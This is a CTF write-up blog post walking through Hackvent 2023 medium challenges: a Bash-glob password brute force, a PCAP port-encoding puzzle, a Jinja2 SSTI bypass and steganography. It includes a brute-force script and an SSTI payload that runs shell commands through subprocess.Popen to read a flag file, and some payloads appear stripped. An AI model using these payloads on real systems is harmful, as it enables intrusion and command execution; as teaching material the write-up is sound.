

# Hackvent 2023 - Medium

[ctf](/tags#ctf ) [hackvent](/tags#hackvent ) [bash](/tags#bash ) [bash-
glob](/tags#bash-glob ) [python](/tags#python ) [bruteforce](/tags#bruteforce
) [pcap](/tags#pcap ) [wireshark](/tags#wireshark ) [tshark](/tags#tshark )
[jinja2](/tags#jinja2 ) [ssti](/tags#ssti ) [python](/tags#python )
[flask](/tags#flask ) [regex](/tags#regex )
[steganography](/tags#steganography ) [python-pil](/tags#python-pil )
[cryptography](/tags#cryptography ) [mersenne-twister](/tags#mersenne-twister
) [randcrack](/tags#randcrack ) [mersenne-twiters-seed-
recover](/tags#mersenne-twiters-seed-recover ) [hashing](/tags#hashing )
[firmware](/tags#firmware ) [gdb](/tags#gdb ) [core-dump](/tags#core-dump )
[ghidra](/tags#ghidra ) [reverse-enginnering](/tags#reverse-enginnering )
[nettle](/tags#nettle ) [cyberchef](/tags#cyberchef )
[pwntools](/tags#pwntools ) [htb-spider](/tags#htb-spider )  
  
Jan 2, 2024

  * [easy](/hackvent2023/easy)
  * medium
  * [hard](/hackvent2023/hard)
  * [leet](/hackvent2023/leet)


The seven medium challenges presented challenges across the Web Security, Fun,
Network Security, Forensic, Crypto, and Reverse Engineering categories. While
I’m not always a fan of cryptography challenges, both day 13 and 14 were
fantastic, the former having me abuse a weak hash algorithm to bypass signing
requirements, and the latter having me recover an encrypted file and key from
a core dump. There’s also a Bash webserver with an unquoted variable, a PCAP
with a flag in the TCP source ports, Jinja2 (Flask) template injection,
steganography, and recovering the seed used for Python’s random function.

## HV23.08

### Challenge

 | HV23.08 SantaLabs bask  
---|---  
Categories: |  WEB_SECURITY   
Level: | medium  
Author: |  coderion   
  
> Ditch flask and complicated python. With SantaLabs bask, you can write
> interactive websites using good, old bash and even template your files by
> using dynamic scripting!

There’s a download and a container to spin up.

### Enumeration

#### Website Enumeration

The website is a simple front page:



The “Home” link leads to `/`, and the “Login” link to `/login`, which presents
a password field:


If I send a password, it shows a failure message:


#### Source

The source has a main Bash script (`bask.sh`), a `Dockerfile`, and two
directories:

    
    
    oxdf@hacky$ ls
    bask.sh  Dockerfile  files  templates
    

`bask.sh` defines a pipe, `response`, and a `handleRequest` function. Then it
simply forever sends that pipe into `nc` and what `nc` gets to
`handleRequest`:

    
    
    #!/usr/bin/bash
    
    ####################################
    #        BASK v0.0.1 Alpha
    #        Webserver in Bash
    ####################################
    
    # Create the response FIFO
    rm -f response
    mkfifo response
    
    function handleRequest() {
    ...[snip]...
    }
    
    echo 'Listening on 0.0.0.0:3000...'
    
    # Serve requests
    while true; do
    cat response | nc -lN 3000 | handleRequest
    done
    

`handleRequest` does some parsing to get the HTTP verb and path, and then
calls this switch statement to do routing:

    
    
    STATUS_CODE=200
    # Route to the response handler based on the REQUEST match
      case "$REQUEST" in
        ### Static files
        "GET /files/styles.css" )
            ADDITIONAL_HEADERS="Content-Type: text/css"
            RESPONSE=$(cat files/styles.css) ;;
        ### Routes
        "GET /")
            RESPONSE=$(bash templates/index.sh) ;;
        "GET /login")
            RESPONSE=$(bash templates/get_login.sh) ;;
        "POST /login")
            RESPONSE=$(POST_PASSWORD=$INPUT_VALUE bash templates/post_login.sh) ;;
        "GET /admin")
            RESPONSE=$(COOKIES=$COOKIES bash templates/admin.sh) ;;
        ### Default (404)
        *)
            STATUS_CODE=404
            RESPONSE=$(bash templates/404.sh) ;;
      esac
    

For each route, it’s running another script and getting the output.

`post_login.sh` seems like a good place to look, as that’s where the password
is handled:

    
    
    #!/bin/bash
    
    # Include header
    bash templates/header.sh
    
    cat << EOF
    <main role="main" class="inner cover">
        <h1>Login</h1>
    EOF
    
    if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
        cat << EOF
        <div class="alert alert-success" role="alert">
            <strong>Successfully logged in, redirecting...</strong>
        </div>
        <script>
            document.cookie = "admin_token=$POST_PASSWORD;path=/";
            setTimeout(function () {
                window.location.href = "/admin";
            }, 2000);
        </script>
    EOF
    else
        cat << EOF
    
        <div class="alert alert-danger" role="alert">
            <strong>Invalid username or password!</strong>
        </div>
    EOF
    fi
    
    cat << EOF
    </main>
    EOF
    
    # Include footer
    bash templates/footer.sh
    

The header and footer are run as other scripts. The interesting part is where
the password sent in the request (`$POST_PASSWORD`) is compared to
`$ADMIN_PASSWORD`. That must be assigned outside of the script. If they match,
then the response has JavaScript that sets the cookie
`admin_cookie=$POST_PASSWORD`. This would be a lot easier if it set it to
`$ADMIN_PASSWORD`, but it doesn’t.

The other interesting file is `admin.sh`:

    
    
    #!/bin/bash
    
    # Include header
    bash templates/header.sh
    
    # We only have one cookie so first value should be admin password
    FIRST_COOKIE=$(cut -d "=" -f 2 <<< "$COOKIES")
    
    # Check if admin password is valid
    if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
        cat << EOF
        <main role="main" class="inner cover">
            <h1 class="cover-heading">Admin Panel</h1>
            <p>Your flag is: $FLAG</p>
        </main>
    EOF
    else
        cat << EOF
        <main role="main" class="inner cover">
            <p>You are not authorized to view this page.</p>
            <script>
                document.cookie = "";
                setTimeout(function() {
                    window.location.href = "/login";
                }, 2000);
            </script>
        </main>
    EOF
    fi
    # Include footer
    bash templates/footer.sh
    

If the cookie value matches `$ADMIN_PASSWORD`, then it gives the flag.
Otherwise, it redirects to `/login`.

### Glob

#### Half Success

Bash [has
issues](https://mywiki.wooledge.org/BashPitfalls#A.5B_.24foo_.3D_.22bar.22_.5D)
when comparing variables without “” around them, as happens in the
`post_login.sh` script:

    
    
    if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
    

The issue is that if one of the variables has a wildcard (like `*`), then that
will process. So sending the password `*` will match! If I send `*`, then I’ll
briefly see:


Then:


Then a redirect to `/login`.

That’s because when the check in `post_login.sh` works, it sets my cookie to
`*`:


When it goes to `/admin`, there the check is in quotes:

    
    
    if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
    

So that fails, and redirects.

#### Brute Force

I can still learn from this. If I send a password of `a*`, if the password
starts with “a”, then it will return the page with the `/admin` redirect. If
it does not, it will say “Invalid username or password”. I can write a Python
script to bruteforce the entire password this way:

    
    
    import requests
    import string
    
    host = "dc03e9f3-9042-434c-b7bd-d8169854edeb.idocker.vuln.land"
    password = ""
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$%&-.:<=>?@^_~"
    while True:
        for c in alphabet:
            print(f"\r{password}{c}", end="")
            while True:
                resp = requests.post(f"https://{host}/login",
                        data=f"password={password}{c}*")
                if resp.status_code == 200:
                    break
            if c == "s":
                x = 1
            if "admin_token" in resp.text:
                password += c
                break
        resp = requests.post(f"https://{host}/login", data=f"password={password}")
        if "admin_token" in resp.text:
            print()
            break
    

I’m using a custom alphabet to remove some special characters that might not
play nicely with the script / Bash.

I can’t use `data={"password": f"{password}{c}*"}` in `requests`, as it will
encode the asterisk, and then the glob expansion will not happen. But this way
does work.

Brute forcing on this server does also cause a bunch of crashes, which is why
I try the same password over and over until I get 200 in the response.

Once I match the next character, I try logging in with the current password,
using success there as the end state to break the overall loop.

This runs in about two minutes:

    
    
    oxdf@hacky$ time python brute.py 
    salami
    
    real    1m42.754s
    user    0m2.347s
    sys     0m0.046s
    

The script will print the characters as it tries them to show progress.

Once I have the password, I can log in and get the flag:


**Flag:`HV23{gl0bb1ng_1n_b45h_1s_fun}`**

## HV23.09

### Challenge

 | HV23.09 Passage encryption  
---|---  
Categories: |  FUN  
NETWORK_SECURITY  
Level: | medium  
Author: |  dr_nick   
  
> Santa looked at the network logs of his machine and noticed that one of the
> elves browsed a weird website. He managed to get the pcap of it, and it
> seems as though there is some sensitive information in there?!

The download is a PCAP file:

    
    
    oxdf@hacky$ file secret_capture.pcapng 
    secret_capture.pcapng: pcapng capture file - version 1.0
    

### PCAP Summary

In Wireshark, the Statistics > Endpoints popup shows the hosts and services
that are in the PCAP:


There’s two hosts. 192.168.1.10 is the webserver, and 192.168.1.12 is the
client making requests to it.

### HTTP

#### Enumeration

The session starts with a request for `/`, which returns the HTML as well as
10 door images and some CSS (I can pull this out and reconstruct the page):


Each door is a link to `/?door=X`, where X is the numbers 0-9. With the filter
`http.request.method==GET`, I’ll see the initial requests to load the page:


And then the user clicking on doors:


As the doors are clicked, they are added below the break. For example, after
the 9th click:


After the last click, the returned page no longer offers doors:


#### False Flag

My initial thought is to look at the numbered entered via doors. I’ll use
`tshark` to get the URIs:

    
    
    oxdf@hacky$ tshark -r secret_capture.pcapng -Y 'http.request.method == "GET"' -T fields -e http.request.uri 
    /
    /style.css
    /doors/door0.png
    /doors/door1.png
    /doors/door2.png
    /doors/door4.png
    /doors/door3.png
    /doors/door5.png
    /doors/door6.png
    /doors/door7.png
    /doors/door9.png
    /doors/door8.png
    /favicon.ico
    /?door=2
    /?door=2
    /?door=3
    /?door=9
    /?door=8
    /?door=6
    /?door=9
    /?door=4
    /?door=0
    /?door=9
    /?door=7
    /?door=8
    /?door=3
    /?door=3
    /?door=2
    /?door=7
    /?door=3
    /?door=1
    /?door=7
    /?door=2
    /?door=2
    /?door=0
    /?door=6
    /?door=9
    /?door=7
    /?door=6
    /?door=2
    /?door=4
    /?door=0
    /?door=9
    /?door=9
    /?door=3
    /?door=6
    /?door=9
    

Now add `grep` to get the `door=X`, then `cut` to get just the number, and
`tr` to remove the new lines, I get a number:

    
    
    oxdf@hacky$ tshark -r secret_capture.pcapng -Y 'http.request.method == "GET"' -T fields -e http.request.uri | grep door= | cut -d= -f2 | tr -d '\n' 
    2239869409783327317220697624099369
    

I’ll use Python to quickly view that as hex and ASCII:

    
    
    >>> x = 2239869409783327317220697624099369
    >>> f"{x:x}"
    '6e6f20666c616720686572653a29'
    >>> bytes.fromhex(f"{x:x}")
    b'no flag here:)'
    

It’s a troll. But it’s also a good sign that the input numbers aren’t the
flag. Trying to make them decode to something else while still showing that
message would be nearly impossible.

### TCP

#### Source Ports

Going back to the TCP ports, I’ll notice something interesting:


72 is the decimal representation of “H”, and 86 is “V”. 50 is “2” and 51 is
“3”. That looks like a flag!

#### Initial Fail

My initial reaction is to grab the last two characters of the source port and
convert them to ASCII:

    
    
    oxdf@hacky$ tshark -r secret_capture.pcapng -T fields -e tcp.srcport | cut -c4- | while read n; do printf "%02X\n" "$n"; done | tr -d '\n' | xxd -r -p
    HV23L
         01
    _
     _
    
      5_
    
    7_
      0
    

It doesn’t work. The “HV23” is still there, but the rest is messed up.

#### Solving

Going back to the ports, I’ll get rid of a bunch of 80s and look at what’s
left:

    
    
    oxdf@hacky$ tshark -r secret_capture.pcapng -T fields -e tcp.srcport | grep -v ^80$
    56614
    56614
    56621
    56623
    56626
    56625
    56624
    56623
    56621
    56614
    56625
    56626
    56626
    56772
    56786
    56750
    56751
    56823
    56776
    56811
    56748
    56807
    56749
    56810
    56803
    56795
    56802
    56811
    56814
    56795
    56812
    56811
    56814
    56816
    56753
    56795
    56810
    56811
    56755
    56795
    56800
    56811
    56748
    56814
    56736
    56825
    56700
    

Where the flag starts, it goes 56772, 56786, 56750, 56751, 56823, then 56776.
56776 is becoming 76 -> “L”. That means 56823 is printing something
unprintable. 23 is the ETB character. I want a “{“, which is 123. This is
where it clicked for me. I shouldn’t be cutting off the last two characters,
but rather subtracting 56700.

    
    
    oxdf@hacky$ tshark -r secret_capture.pcapng -T fields -e tcp.srcport | while read n; do printf "%02X\n" "$(($n-56700))"; done | grep -v ^F | xxd -r -p
    HV23{Lo0k1ng_for_port5_no7_do0r$}
    

Instead of removing 80s with `grep`, I remove anything that starts with `F`
after subtracting and converting to hex, which would be anything negative.

**Flag:`HV23{Lo0k1ng_for_port5_no7_do0r$}`**

## HV23.10

### Challenge

 | HV23.10 diy-jinja  
---|---  
Categories: |  WEB_SECURITY   
Level: | medium  
Author: |  coderion   
  
> We’ve heard you like to create your own forms. With **SANTA** (Secure and
> New Template Automation), you can upload your own jinja templates and have
> the convenience of HTML input fields to have your friends fill them out!
> Obviously 100% secure and even with anti-tampering protection!

There’s both a docker instance to spawn and a download of the source code.

### Enumeration

#### Site

The site boasts of template automation:


It has a form asking for a Jinja template file. I think it wants me to give it
the fields as well. In Jinja, variable are printed inside `{{ }}`, and control
commands are inside ``. I’ll make a simple page:

    
    
    this is a: {{ a }}
    

And upload it:


When I “Upload”, the resulting page is `/form/{uuid}`, and it asks for the
“test variable”:


If I enter “0xdf” and click “Generate”, it shows the template filled in with
that variable as “0xdf”:


#### Source

The source has an `app.py`, as well as a `Dockerfile` and a `flag.txt`:

    
    
    oxdf@hacky$ ls
    app.py  Dockerfile  flag.txt
    

`flag.txt` is a fake flag. The `Dockerfile` shows the OS is Alpine and that
the application and `flag.txt` are in `/app`:

    
    
    FROM alpine:latest
    RUN apk update
    RUN apk add python3 py3-flask
    COPY app.py flag.txt /app/
    COPY form_template.html index.html /app/templates/
    ENTRYPOINT ["python", "/app/app.py"]
    

`app.py` is a Flask web application that defines three routes. The first is
the static index page:

    
    
    @app.route("/")
    def index():
        return render_template("index.html")
    

The next one is for `/upload`, taking only POST requests. It starts by saving
the file to a temp name:

    
    
    @app.route("/upload", methods=["POST"])
    def upload_template():
        message = request.files["template"]
        fields_data = request.form["fields"]
        fields = json.loads(fields_data)
    
        template_id = str(uuid.uuid4())
        template_path = os.path.join(
            app.config["TEMPLATES_FOLDER"], secure_filename(template_id + ".html")
        )
        tmp_path = os.path.join(
            app.config["TEMPLATES_FOLDER"], str(uuid.uuid4())
        )
        message.save(tmp_path)
    

Then it has code that claims to stop injections:

    
    
        # Prevent any injections
        jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
        for obj in jinja_objects:
            if not re.match(r"^[a-z ]+$", obj):
                # An oopsie whoopsie happened
                return Response(
                    f"Upload failed for {tmp_path}. Injection detected.", status=400
                )
    

This is using `re.findall` to get all `{{ }}` blocks and makes sure that only
lowercase characters and spaces are between them. This is supposed to allow
variable names without allowing any more complex code.

Then it creates the form to offer rendering using the fields, redirecting to
the next path:

    
    
        # If file is injection-free, save it
        os.rename(tmp_path, template_path)
        with open(
            os.path.join(app.config["TEMPLATES_FOLDER"], f"{template_id}_form.html"), "w"
        ) as f:
            f.write(
                render_template(
                    "form_template.html", fields=fields, template_id=template_id
                )
            )
    
        return redirect(url_for("render_form", template_id=template_id))
    

The last route takes both GET and POST requests. The GET request returns a
simple template with the id filled in:

    
    
    @app.route("/form/<template_id>", methods=["GET", "POST"])
    def render_form(template_id):
        # On render
        if request.method == "POST":
    ...[snip]...
        # User just wants to GET
        return render_template(f"{template_id}_form.html", template_id=template_id)
    

If it’s a POST, then it emptys out the `globals` variable, loads the items
passed in the form, and renders the uploaded template:

    
    
            # Render the Jinja template with the provided data
            template = secure_filename(template_id + ".html")
            # Prevent hackers
            app.jinja_env.globals = {}
            # Set the parameters as globals
            for var_name, var_value in request.form.items():
                app.jinja_env.globals[var_name] = var_value
            # Render the template
            return render_template(template)
    

### Solutions

It’s clear that I need a server-side template injection (SSTI) here. I’ll show
X ways.

#### Control Block

It is possible to do a SSTI attack on Jinja without `{{ }}` (and even easier
if I can use a simple block there with a variable to display). I first showed
this on [HTB Spider](/2021/10/23/htb-spider.html#ssti).

A simple test of this is to leak the available subclasses through the `config`
variable with this template:

    
    
     {{ a }} 
    


It works. I’ll search this for useful classes, and `subprocess.Popen` is
there:


I’ll copy all of these into a text file, and replace “, “ with newline. It’s
on line 453, which is 452 (because these lines are 1-indexed and the list is
0-indexed). I’ll verify this with the following payload:

    
    
     {{ a }} 
    


Now I just need to use that to read the flag:

    
    
     {{ a }} 
    

On uploading:


**Flag:`HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`**

#### Break Regex

An alternative way is to use `{{ }}` but break the regex. The easiest way to
do that is to include a newline, as the `.` in `re.findall(r"{{(.*?)}}",
open(tmp_path).read())` doesn’t include newline, unless `re.DOTALL` is given
as an option.

That means this payload works:

    
    
    {{
    [].__class__.__base__.__subclasses__()[452]('cat /app/flag.txt',shell=True,stdout=-1).communicate() }}
    

## HV23.11

### Challenge

 | HV23.11 Santa's Pie  
---|---  
Categories: |  FORENSIC   
Level: | medium  
Author: |  coderion   
  
> Santa baked you a pie with hidden ingredients!


### Solution

#### High Level Analysis

Many Steg tools (I usually use `stegsolve.jar` locally) will show the image
with 8 “channels” for each color. This is effectively showing each bit as on
or off for that color for that pixel.
[aperisolve.com](https://www.aperisolve.com/7a6dfeaa4587146a8b58fd80a835b0ea)
has a nice display of this output. For the green channel, it looks like this,
fairly normal:


The blue and red channels has oddities. Red only uses four bits, with the high
bits always (dark is 0 here):


That means it’s values only go 0-115, and judging by the amount of black in
the 4th bit, most are 0-7.

Blue uses 7 bits:


There’s also some patterns in the 6th and 7th bits (and maybe the 5th). Seven
bits is interesting because that’s basically ASCII range.

#### Python Analysis

I’ll write a simple Python script to look at the pixel data:

    
    
    from PIL import Image
    
    image = Image.open('7cda2611-87a0-4b68-b549-13376b8c097d.png')
    
    res = []
    width, height = image.size
    for y in range(height):
    	for x in range(width):
            r, g, b, a = image.getpixel((x, y))
            print(r, g, b, a)
    

I’ll look at the data:

    
    
    oxdf@hacky$ python solve.py | head
    3 236 77 255
    9 235 112 255
    7 236 102 255
    1 238 100 255
    6 238 115 255
    0 238 110 255
    8 238 70 255
    7 238 39 255
    1 238 33 255
    9 239 39 255
    

It looks like alpha is always 255. I’ll confirm when there’s no output from:

    
    
    oxdf@hacky$ python solve.py | grep -v "255$"
    

I’ll look at the blue values as ASCII by changing the print line to:

    
    
    print(chr(b), end="")
    

The results are just non-sense:

    
    
    oxdf@hacky$ python solve.py 
    MpfdsnF'!'ee,fiiuhhw!n&gjH}k$jbt}ewwl'}f##o !n#(rf$ckhH|iuhgOoiOfgwj"wq(rqfefJxoL{&(fn!(&s&(p)'$bf)&g%mvhnlgg*vs$k'pa!b%{'k``g'phN|gfifr`rrbg!mea!a(gfheghm)wc&bm(f"v$fi`byn"#n`qm/dk"'ib{`$"g fj*rl}%ebfM!ffhbJ})g(#g(f mkN~oMzo}jdomvune)!cukawkmqjirelen'&pnhggl`lo!(oO~a/}n.pgp#rvezrlgpn+#g)#"wgn&vegd"ucqibM(dfl"vrlfo%w}wmcvlcqdbq})r|l$ff!%j"#bglpu!sjjI{j~&l&rujfa&sojGqgGqh!`z"nro!`ygp}!f nz}b{mhF}`ahgmfgqcpv`c#fv`dt)fv)ep n.af)"h'}$~%qphrslFmbif(go)ngv`#w`$qtq$d%|nK~ausf bkrjawq&s$`e'pmb&o-~g+""l'gwl"k"b$de&gI%gOpiJyh(`g"oepmmlddgjHd(epmcgtjdinl%iN!&qf%tlgbc#gw}m(ph'lbd"(~|)pi.v&lssf(fja!bbbb'`dn' k'ziMhdihc)(m"ndgirtoGunN|h*md*pn* &v$Lkcdhi/'oH%iiqk(%ehdwie`"cqfc)dk)}e~etfwnqkpucrq&d{gdmgdll!uuslw'itp(rlfmwtv&tiz htthtb#`{cyudfaav"ut`myqf.ucr(rfie)ke#b"'o(&#idvqrng({fmvkiMqkNklc}n,mv}dwenvu!l!ld%gb)l)m(dj'pbrh`s'pwi!mgzh)fl)xh*easiztw#h(I$iJklha&+ffme'u}'uitjhv|)~|oM "yt$p#a"d%r ~)r$ffu(bbl('doekj-!h&|p%e#r~w-dl'cni`fhgptdtm Mzo){cra!fffte ud#v cicl}bu)g)s$um#iif&osrc~lhwbgLcfJ"oJjl*ls'ka!kFocpof((oFnk$}rnt'w$ebg~gdtk(pb'%n.}d-(b.ef|$b le#abpn'#oumrrhcoege&pn*aaj'qw`{smbqh(zn!&!rog-l(##iF"h&nwp})ts$goaljNlogpb/'oj``m}akmv|$~(#``iG#f'rcp"ssl%t$lk"`g `$mf~oeui%}lqczccav!es)IhfrhO!)*gn+~lj`qffr!g$blFyo#&h)j&vq%oqwlqr#fm {f,f"xwj)f{i$ni&$jsc#yn"lwz!kKkhGzoywj%&aN{kc{i&u&l g.#csmuvgdvf/lg%pn.tl*&k,la'na}gvoecyn)dijd rsa(avpdsepqilgp"oJ%uu|)j"w'`s!hmj'~(adyd#'m#fm.ap$dcaG&ndocJ{kIgfH#(qi)vp%sjdqiHgh$|`&dh(}%kFqgIxffof)qe*%(vhmw`flh/mfK|hcfimfNae(po#~fhul'cr&j( iNoe(ef({f)tsvapvi)q$rnmG'g/ag&df%m%l` llag)d|"ddacz'()avcblm(}`qre`a jlFlH}k)lp$eqi%byiu|'cohcpi`}ovvn.#o+mv"jgpoI$l($kH"amd!bagi+rl$gm!{bv&'$vtm%%mgmhss%gw"d#k#mkImk&!wm%be`Jplc| N$hFnnI(!u~)&rajgesif{j!uh' hIwa(wb&uvvap)lph#ufg$okopfwgtvg(dvffdphdlgg(gO) sg"tepoif)evqg$duhn,ek'}j&q!ggs'fd|jN|``}ndwf!~td(lhK'oGjf+feejd'oO}gpsgb"gw$nsxnJ}ffrj#p%fawo$emcs)oexal}cee.bc)mk)m{'guf`GamI|gm`m(fg%b#%j)}f#qf`|nLln*v!wcf+"rrq(thz&orriwa apnw|fgelr#{vam''dc&fri%"fNhlL!`j!m`#tihco ufn(dhgd%#H#i`pfc|k$hrimvgcfg `)fwtm&rmmhoc%fr(eMgcrm$qor|)gufsf"p$"vfl""mJ'k%q b#mp$d klf`p)fG%lO(cw~`tqojh{'jfti#`df#h$)w%dgt%fim(!mooplg. j'rr"n!xptlazon{!jOleugaznbrfglqhwrdm}fnutlz|ofpfsles%gGp)qt"k%p|hzt%'pugwqzres`&e`$lukf~ajoa!ottsfrbg`ng|iN~mbmJboonv#j~}etr'bxm`ymbqiydk/#j-s&`m!dM%i/ylFko-{n+`an#wqow~ac|n j'('qab*b%mh$pm(bamidr$btmhfo'vhr"&`'fw fn$iw$xgtl b}"gcfbf`o&gqml&d"xmc)em/m!"%ljgvhgu g+bi,uqsi%,%w$huloz&mdjlkbm!fwj)plci'f)hsndrlgwnl,(l#}n#e`mge`%axn$jb`qm%lf  gvd pl j|{)gIomK~gxqi&'orsohpbh&w| fl#etl-wafp"`euvu&f'b,da/tbtnr `zo'p%n.~fjazvpf(ao#&g%&aufvun#qic`k!)f%b'psd#x%}s&~q'ddr}ddr"uqjl~eqsppk{r`!r"cv"mrm'}mJmjJ(jt(wggtnkJ}((gGvfNxlhkf*t`($(saerclmg/blM{nh`o)ahulc)jpmfr%f mo)m`nl'y `f`fo$(h#(z)m&uk%~ng}j"km's(r"l"qhJznF~nwn'nsefpqfhOqjN'o-foOnntgahmol)d$#w&oajo'cl''&&e'pta'ip'aq)hHlha}clpnib(vmc|d`!mefnm(fggi)wg&cf)bq)s"(qsl'&idjh/"f(!mffr}e!~l!b M%l& krta*}lt`"lK|hHz(w}`psgfluggO|i&!e/qoN&ielclmi+wg/mg*d(p'`jfco $kbtg*"g+ ltersd!patpi(&k%|nqqf+"fsb$vn)r"l|!t %ugj,abnr)'~u`qo`ua%qqf!cfH$hKji,`eeha$kLzawvk%~lOzf(s$wsemaika~nGpknmg"iomrzfmkhggau(k&`m,s(}af!gK{o#nj`hrw"wqk$mk!"i')dmkpp&uhkLpmr'j"~j(~nnm"qigr~&& FpjMnkw$g&~jwtdrtbuiu$hbeofqi#g'f#pnmuu'~#fhgl# K!jmqlavg"aqmatlclg'b bLnaghi%#d+#i,bosesnceim'"lGwg+ageq}htj+pg! l%%g&)sm"dogLvepn%f!d`"dK iH|kLqo*mg&iluomgfbggMkjLoi,pg.th*ccricmhbsm+pnHno-$g+ll/fgqfpkmw"$Lak $gxbq+&nobtqhqvla}`tohq!lFw$qt!h!~pjuq)at$vu(Ixk(ph)#jiuau)th$xif)g% q!e $b$g nfH{lF}hwjlmmrpol()aqhurarw'cj`nccij wwtfr b~|!qj`cwa`pg'#i!go!)hxlsq%~$g(goaqe"}f #h)uzww&ss)rhm#nLxi/q'$xg.k!hr#uapm!fu'glddb`f&nkb e$shq#m`%kfhlFkhJ}k&(t#ea#'Nhisc"N|&grrgufmHpbaj`gfgsbtpf`#eulbu `%us$ydsmd~u&~|iI''tq$|#a&o#s'v)#u'&H}iL%hMqi'ql(ammgFtev)'LnlF{hJ)")&golfygq|cgmh("oKll"a,go(qm}hq'`rh'p"f.{lhatvwg/md|essmqqlm|`djg p#rnv}kmt!gmbbowk&tl$oge"(qq t}i.q)fsqf$fln&bsf/"n,gaq(f$nc eg~o+'nvorpkaiim|nfskfjlc~bfkh##pumwl%e%&e`k`vb`ihb|e |g,(o'wdg!vsgM{jlsoM`n#)f 'v f'ua tmdpg#jf-v#r%n(svrv"rrm#dw%'r}&Njbru!pcr'brluqvqa*w`q!reie"jc)f%)b/()fcrwpng!g(xj$}w&`{rmrr&ufk#h/m pl/arufuuerwbri'qaJ}%sv%ulrmfulcu#$sq!~loIfh'qh"%ppjl'idnk~&f`&mOzkI}(wunvscn`wlgGum%#`-iL&%,!c+&wm#`dne#hd}l/dd-vlq`!ld(*eo&fhobeoetpcpg!Iql)|guk(mmlwgLomH'#qa#t|(umlumInk"}e,ag)u &v%(}b"%mvde $ml`/ediceij%tpgadl%oetibvnHknI{$(bu}(unmm)pmcggfmcq(g&dh,t"wdg#dIzj(lg`pn%ph!x'h`{hhvu`r$j'$h(!sysn'mzq#!hL"o)jrsq vu oibjhOjjfwn,%onlklqn`zesrc)(c*dt"lgsnN$i"!jO'`!&c!$zaoq$`usmt|g!%k.swrgo"tknzvat#h&gdtc`gnru"wdc#`ronaniq|cpqh*qk#$g)'f#(td(`ihO|fwjnFkmJknwk#t!sqbbgL|nO}#*mf#%$sMpmfym!u)i$g&!bvcrwld|i/eg ~l)rfq hrjm(bn pf(}!gcu$ab|gH{imznFylK}'nl&tv%qdf#hF~k)!!nff+x$ts"wq!acad!q)$rqkw)c(hqa)!tmuv$c  d#i)jlIkM}f|dcnhtpgm !ltfmqherokbkgf&'tfcajldod!(jI{b)ml`qoaIme+pn(qmh}`&b%g) kMmd '#lg(fwn"'gGinK)gh)ac(wmogh sggeffdkgqvnx)n/prfhfoiK|d)"j!kdida-"gn)rkdg|ba(f+yj$q'm`dms')fp}bp`fI|icncelmsm{``&itcbu)gv'fv&f*lo."n$}'u#qwaqfKm`og%u}%lu)b!h"khIil/!te!bbgOims'Nabznct#iHqhdvndlsouha`pauh`tmqwfrrgogf.ym)&(jcp|beng'}lKql+'j({nwh"vbzpmpcm"llMcaqio*lbrj'yn"lac("s}#tto.r!nsvb!dih%bg`e)dfk &i#zjKnbohd%)d)omic~wgLg%b{%npqiOpocvj'}$lc{i"mhat"lgm`&pm&gfbhdp)bpihla(tls'$d#`r(ag'da$o. g'mnHznv(a)'rpnLkg`!k(qkLmmmbenv%)s&keHtnc(lftn!)mxub'pes#ulke(mc%e!'f,$!mawtt`o%wfnsffH{mOjh`qm*lrwgvgft|!a&nmuwa&socmnc(eq iKlnqm#tatp&aq`urpalrok'w&am#epf/taip"`fuvs$l$va&tan%yfNvjamklivpcl'fep ~ehKgfdqi-vg.$o&eop'f#fqzi.mjOi&mk%chnnfmdvqdtc(No'pnpj%ggfwe"pa's$bgdcwdr%m#| pl#naf!nsubr)q~exv{r`tl%db)fpgktnfac!c{s|bjdm/mosla nqj`p#d&bh'gcmm$v%alb'mn#iiNhhf$bvm-c%ukqcav'omnibpgv$`!(j#|lO(jnlqm%aln#$idgl(%iN(h,m{pt!sv%kdcflKnnlud*(ojkgosnjjvs' $dloJ"n)wa)q}n&w%ab/dh/`!)&ejeuhc)n+lf'ssuk -&z,$l!)nhlwtd)n&l$O#m$'ftvo'pk~nfsiew!bw"a$c#o&ud&p$f!lwnwv&s"'a`%O{mKjndm/cljnttfIz$wtbJzkc{k!r)h%o, nwmqpibpo+`j'zh*un-)h-cf#oe|grgafj(bnla!pwf,bqo 'j"!cs`wm)sigmm$%k#c(svd$z' |mFzg.v&ywaivdjlb~mHxogbh#ljgpigoo`v$eamgsmaL"i%earavv~$lmfug{hlaldgqltkl$ttuh# &fhif! mif~hhHbf'~l'xiisc fw)l)$kMhf cf(xo$pswhss`#v#pglN o.a`,dn)j#lK}gIqhxh&hgjqzhdG{lI!a-ahJj`Lgfcli$!f,$n'gmctmaboj')fOtg'dl(aj-lgplu~h&o&f}gH(lfj'*mg(avqa#weq})u%empfJ$"hpoumsrczpdp} `}$b%g$ghOjj'&te'cliLxgd})F gHfmO& vs)&tdhnl}obzj!rk#'hJ`f`gddhm,wn'dk,b$p%bkabyn$&kdsid|!vv 